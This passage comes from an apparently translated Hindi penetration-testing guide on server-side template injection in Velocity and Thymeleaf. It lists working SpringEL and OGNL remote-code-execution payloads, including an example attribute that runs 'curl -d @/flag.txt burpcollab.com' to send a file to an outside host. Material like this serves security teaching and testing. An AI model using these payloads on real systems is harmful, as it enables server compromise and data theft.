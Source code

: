 ```java
$out.read()
#end
```
**अधिक जानकारी**

* Velocity अनुभाग में [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#velocity](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#velocity)

### Thymeleaf

Thymeleaf में, SSTI कमजोरियों के लिए एक सामान्य परीक्षण है अभिव्यक्ति `${7*7}`, जो इस टेम्पलेट इंजन पर भी लागू होती है। संभावित दूरस्थ कोड निष्पादन के लिए, निम्नलिखित अभिव्यक्तियों का उपयोग किया जा सकता है:

*   SpringEL:

```java
${T(java.lang.Runtime).getRuntime().exec('calc')}
```
*   OGNL:

```java
${#rt = @java.lang.Runtime@getRuntime(),#rt.exec("calc")}
```

Thymeleaf को इन अभिव्यक्तियों को विशिष्ट विशेषताओं के भीतर रखा जाना आवश्यक है। हालाँकि, _अभिव्यक्ति इनलाइनिंग_ अन्य टेम्पलेट स्थानों के लिए समर्थित है, जैसे कि `[[...]]` या `[(...)]` का उपयोग करके। इस प्रकार, एक सरल SSTI परीक्षण पेलोड इस तरह दिख सकता है `[[${7*7}]]`.

हालांकि, इस पेलोड के काम करने की संभावना सामान्यतः कम है। Thymeleaf की डिफ़ॉल्ट कॉन्फ़िगरेशन गतिशील टेम्पलेट निर्माण का समर्थन नहीं करती है; टेम्पलेट को पूर्वनिर्धारित होना चाहिए। डेवलपर्स को ऑन-द-फ्लाई स्ट्रिंग्स से टेम्पलेट बनाने के लिए अपना `TemplateResolver` लागू करने की आवश्यकता होगी, जो असामान्य है।

Thymeleaf _अभिव्यक्ति पूर्वप्रसंस्करण_ भी प्रदान करता है, जहाँ डबल अंडरस्कोर (`__...__`) के भीतर अभिव्यक्तियों को पूर्वप्रसंस्कृत किया जाता है। इस सुविधा का उपयोग अभिव्यक्तियों के निर्माण में किया जा सकता है, जैसा कि Thymeleaf के दस्तावेज़ में प्रदर्शित किया गया है:
```java
#{selection.__${sel.code}__}
```
**Example of Vulnerability in Thymeleaf**

निम्नलिखित कोड स्निपेट पर विचार करें, जो शोषण के लिए संवेदनशील हो सकता है:
```xml
<a th:href="@{__${path}__}" th:title="${title}">
<a th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('curl -d @/flag.txt burpcollab.com')}" th:title='pepito'>
```
यह इंगित करता है कि यदि टेम्पलेट इंजन इन इनपुट को गलत तरीके से प्रोसेस करता है, तो यह दूरस्थ कोड निष्पादन की ओर ले जा सकता है जो URLs तक पहुँच सकता है जैसे:
```
http://localhost:8082/(7*7)
http://localhost:8082/(${T(java.lang.Runtime).getRuntime().exec('calc')})
```
**अधिक जानकारी**
